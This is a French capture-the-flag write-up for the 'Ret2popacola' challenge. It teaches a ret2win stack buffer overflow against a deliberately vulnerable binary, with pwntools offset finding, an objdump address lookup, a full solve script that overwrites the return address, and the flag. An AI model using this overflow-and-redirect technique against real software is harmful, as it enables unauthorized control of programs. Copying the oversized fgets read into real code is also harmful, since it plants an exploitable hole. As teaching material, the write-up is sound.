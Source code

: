 # Ret2popacola Write-Up.

L'objectif de ce challenge est la découverte des ret2win en pwn. C'est une méthode d'exploitation assez classique qui permet de bien comprendre le flow d'exécution d'un binaire, mais surtout comment on peut le contrôler :D

## Analyse du challenge
Commençons d'abord par analyser les sources du binaire et son comportement. 

Le programme est un outil de consultation du nombre de ventes de PopaCola de la journée.
Quand on l'exécute, on nous demande un login. Si le login n'est pas le bon, le programme nous refuse l'accès et se termine.
En lisant le code, on voit que le login demandé est "popacola".

En rentrant ce login, le programme nous affiche le nombre de ventes (simulés avec deux random). Rien de bien fou jusque-là.

Cependant, on remarque l'existence d'une fonction "SuperSecretAdminAccess", qui vient ouvrir le flag. Intéressant...
![](assets/SuperSecretAdminAccess.png)

Enfin, on voit que le login est stocké dans le buffer `name` qui a une capacité de 64 caractères. La fonction `fgets` elle vient récupérer l'entrée utilisateur en la considérant d'une taille de 0x100 (256). Que se passe-t-il dans le buffer s'il contient plus de 64 caractères ?

## Un buffer overflow, kesako ?  
En rentrant plus de 64 caractères, nous avons fait un buffer overflow. Nous avons dépassé l'espace mémoire réservé pour le nom de l'utilisateur. De la donnée va être réécrite sur la pile (stack), qui est la partie qui garde en mémoire de nombreuses informations utiles pour notre programme. Dans ces informations, nous pouvons retrouver l'adresse de retour de la fonction après la fin de son exécution ou les adresses de la stack sauvegardée de la fonction main.

C'est là que la fonction SuperSecretAdminAccess nous intéresse. Cette fonction n'est appelée nulle part, comment faire pour y accéder et obtenir le flag ?

Le but du jeu va être de réécrire la valeur du registre `rip` qui est dans la stack et récupérée lors du `ret`. Ainsi, à la fin de l'exécution de la fonction, sellTracker ne retournera pas sur main mais sur la fonction SuperSecretAdminAccess, ce qui nous donne le flag.

## Solution
Un checksec sur le binaire permet de voir plusieurs éléments :
- NX activé, ce qui nous empêche de faire un shellcode
- PIE est désactivé, les fonctions du binaire ont la même adresse à chaque exécution
- Pas de canary, on peut donc blinder la stack sans soucis

Étapes à suivre :
1. Trouver l'offset entre le début du buffer name et le rip stocké.
2. Recuperer l'adresse de la fonction SuperSecretAdminAccess, qui sera toujours la même (PIE désactivée)
3. Écrire notre payload
4. Envoyer notre payload et récupérer le flag !

### 1. Trouver l'offset entre le début du buffer name et le rip stocké
Pour trouver l'offset de réécriture de `rip`, il est courant d'utiliser un cyclic avec pwntools, qui génère une [suite de Bruijn] (https://fr.wikipedia.org/wiki/Suite_de_de_Bruijn).

Avec pwntools d'installé et depuis un terminal interactif Python :
```python
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

On peut ensuite lancer le binaire en local avec `gdb` afin d'envoyer la séquence générée au préalable.
Ici j'utilise [pwndbg] (https://github.com/pwndbg/pwndbg), une surcouche de `gdb` qui permet d'avoir une interface un peu plus sympa.
![](assets/pwndbg_run.png)

Le programme crash. On obtient un SIGSEGV :D
![](assets/sigsegv.png)

1. Le SIGSEGV indique le fameux Segmentation Fault. Ici, le programme essaie de retourner sur une adresse invalide comme `rip` a été réécrit.
2. Pwndbg reconnaît la chaîne de caractères 'waaaxaaayaaa' pour le registre `rsp`. On reconnaît les caractères qui font partie du cyclisme que l'on a rentré. C'est ce qu'on utilise dans `cyclic_find` pour trouver l'offset.

Dans le même terminal Python, on exécute donc :
```python
>>> cyclic_find('waaaxaaayaaa')
88
```
On a trouvé notre offset ! Il est de 88 caractères.

### 2. Récupérer l'adresse de la fonction SuperSecretAdminAccess
Comme on l'a vu dans le checksec, le PIE sur le binaire est désactivé. Les adresses des fonctions du binaire ne changeront donc pas entre deux exécutions.

Comme le binaire est `not stripped`, on peut récupérer facilement les symboles avec `objdump`.
```shell
$ objdump -t ret2popacola | grep "SuperSecretAdminAccess"
00000000004011b6 g     F .text	00000000000000b8              SuperSecretAdminAccess
```

L'adresse est **0x00000000004011b6**.

## Écrire notre payload
Ce script de solve utilise pwntools. Il se connecte en remote sur le Docker fourni :

```python
from pwn import *

def solve():
    # Connexion en remote sur notre hôte local sur le port 4444
    r = remote("localhost","4444") 

    # On met de la donnée inutile pour combler l'espace entre le début de notre buffer et la réécriture de rip 
    payload = b"A" * 88        

    # On utilise la fonction p64 afin de "packed" l'adresse, c’est-à-dire changer l'endianness de l'adresse (on le passe en little endian)
    payload += p64(0x00000000004011b6)

    # Il ne nous reste plus qu'à envoyer notre payload au bon moment, puis de passer en interactive.
    r.sendlineafter(b"Veuillez rentrer votre login pour acceder aux ventes du jour.", payload)
    r.interactive()

if __name__ == "__main__":
    solve()
```
On lance le programme et on obtient l'accès à SuperSecretAdminAccess et au flag :D
![](assets/ca_flag.png)

# Flag
Le flag est `24HIUT{L3ts_K33p_Pwn1Ng_P0paC01a}`.